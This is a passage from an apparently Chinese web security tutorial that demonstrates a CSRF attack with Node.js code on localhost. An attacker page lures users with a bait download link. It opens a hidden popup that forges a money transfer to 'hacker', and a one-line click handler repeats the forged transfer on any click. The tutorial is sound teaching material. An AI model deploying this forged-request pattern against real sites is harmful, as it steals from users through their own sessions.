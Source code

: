 ```js
        account[to] += money
        const str = `${from}向${to}转账成功，金额${money}`
        console.log(str)
        res.end(str)
        break
      default:
        res.end('404')
    }
  },
  '127.0.0.1:4000': (req, res) => {
    res.end(`
<div id="el">
  <p>5G高清美女照片，赶快<a href="javascript:transfer()">点击下载</a>吧！</p>
  <img id="img" width="300" src="http://img.zlib.cn/beauty/1.jpg" />
</div>
<script>
  function transfer() {
    open('http://localhost:3000/transfer?to=hacker&money=100', '', 'width=300,height=100,left=5000,top=5000')
    const h2 = document.createElement('h2')
    h2.innerHTML = '不该点的链接不要点，贪婪是原罪！'
    el.appendChild(h2)
  }
</script>`)
  },
}

function onRequest(req, res) {
  const { url, headers } = req // 获取 url 和 headers
  const cookies = qs.parse(headers.cookie, '; ') // 从 headers 中解析出 cookies 对象
  const { query, pathname: path } = URL.parse(url, true) // 从 url 中解析出 query 和 path 对象
  Object.assign(req, { query, path, cookies }) // 扩展 req
  const route = routes[headers.host] // 根据 host 分发路由（策略模式）
  res.setHeader('content-type', 'text/html;charset=utf-8')
  if (route) return route(req, res)
  res.statusCode = 404 && res.end('Not Found')
}

http.createServer(onRequest).listen(3000) // 被攻击的网站
http.createServer(onRequest).listen(4000) // 攻击者的网站
```

可以看到，代码里面的 Cookie 已经被设置成 httpOnly 的了，也就是说即使被 XSS 攻击也获取不到 Cookie，但是 CSRF 攻击的目的并非获取 Cookie，而是利用浏览器会自动携带 Cookie 的机制，从而伪造用户身份，向目标网站发起请求。

另外，需要注意的是，只要用户进入了第三方网站，CSRF 攻击其实就已经发生了，你可能会问：如果用户不点击上面那个诱导链接的话，不就没有发跨站请求吗？想法太天真了，都已经进入黑客的网站了，岂有让你走的道理，一行 JS 代码搞定：

```js
document.body.addEventListener('click', transfer)
```

页面随便哪里点一下，就转账一次，看你往哪跑？
